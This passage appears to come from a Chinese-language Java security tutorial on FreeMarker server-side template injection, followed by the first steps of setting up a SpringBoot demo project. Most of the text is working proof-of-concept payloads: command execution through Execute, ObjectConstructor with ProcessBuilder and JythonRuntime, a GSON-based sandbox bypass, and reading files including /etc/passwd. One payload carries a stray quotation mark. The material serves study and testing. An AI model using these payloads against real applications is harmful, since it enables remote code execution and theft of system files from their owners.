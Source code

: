**POC**  
命令执行：

```plain
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

```plain
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

```plain
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

```plain
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

文件读取：

```plain
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

```plain
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 2.3 简单例子

第一：创建 SpringBoot 项目 javasec-ssti  
第二：导入 FreeMarker 依赖

```plain
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```
